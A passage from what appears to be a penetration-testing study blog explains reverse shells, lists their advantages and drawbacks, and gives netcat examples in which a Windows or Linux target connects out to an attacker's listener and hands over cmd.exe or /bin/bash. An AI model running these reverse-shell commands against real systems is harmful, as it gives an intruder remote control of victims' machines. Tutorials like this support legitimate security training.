 
### Reverse Shells <a href="#reverse-shells" id="reverse-shells"></a>

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-3d4de9ede03acd8e2aedb7dfbcec6084558939f0%252FReverseshell-660x309.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=8adec4bd&#x26;sv=1" alt=""><figcaption><p>Reverse Shell - geeksforgeeks.org</p></figcaption></figure>

🗒️ **Reverse Shell** - a remote shell where _the target connects to a listener running on the attacker's system_ (**`e.g.`** Metasploit Meterpreter).

* _Reverse shells advantages_:
  * The connection can be initialized without `netcat` too
  * Outgoing traffic may not be blocked by firewalls
* _Reverse shells issues_:
  * used exploit have to know the attacker's IP
  * the attacker's IP can be logged as malicious or present in the exploit file

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Win machine
nc.exe -nv 10.0.28.22 1234 -e cmd.exe
```



<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Linux machine (localhost in this case)
nc -nv 127.0.0.1 1234 -e /bin/bash
```
